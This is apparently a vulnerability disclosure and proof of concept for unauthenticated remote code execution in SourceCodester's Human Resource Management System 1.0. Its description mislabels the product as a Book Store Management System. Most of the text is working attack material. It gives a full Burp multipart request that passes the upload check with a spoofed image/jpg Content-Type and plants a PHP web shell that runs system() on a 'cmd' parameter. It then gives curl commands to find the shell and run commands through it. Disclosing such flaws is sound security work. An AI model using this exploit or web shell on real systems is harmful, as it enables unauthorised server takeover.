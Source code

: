 # Human Resource Management System 1.0 Remote Code Execution (Unauthenticated)

Description: Vulnerability was found in SourceCodester Book Store Management System 1.0. This vulnerability allows an unauthenticated attacker bypass restricted execute arbitrary code via a crafted PHP file.

The product(s): https://www.sourcecodester.com/php/15740/human-resource-management-system-project-php-and-mysql-free-source-code.html

Affected product(s)/code base: https://www.sourcecodester.com/sites/default/files/download/oretnom23/hrm.zip

Affected component(s): /hrm/controller/employee.php

Proof of Concept:

### 1. Bypass File upload restriction

Bypass check type using `Content-Type: image/jpg` in the upload form.

![](Pasted%20image%2020221202002946.png)

### 2. Upload web shell without authentication

Burp Payload

``` txt
POST /hrm/controller/employee.php?empedit= HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------33759207513109230905790184197
Content-Length: 673
Origin: http://localhost
DNT: 1
Connection: close
Referer: http://localhost/hrm/employeeadd.php
Upgrade-Insecure-Requests: 1

-----------------------------33759207513109230905790184197
Content-Disposition: form-data; name="empid"

123
-----------------------------33759207513109230905790184197
Content-Disposition: form-data; name="pfimg"; filename="leecybersec.php"
Content-Type: image/jpg

<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
-----------------------------33759207513109230905790184197
Content-Disposition: form-data; name="submit"


-----------------------------33759207513109230905790184197
Content-Disposition: form-data; name="imagefilename"


-----------------------------33759207513109230905790184197--
```

![](Pasted%20image%2020221202002229.png)

### 3. Find the uploaded web shell file and get RCE

Go to /hrm/image/ and get web shell name

``` bash
curl localhost/hrm/image/
```

Get remote code execution

``` bash
curl localhost/hrm/image/247245leecybersec.php?cmd=id
```

![](Pasted%20image%2020221202002641.png)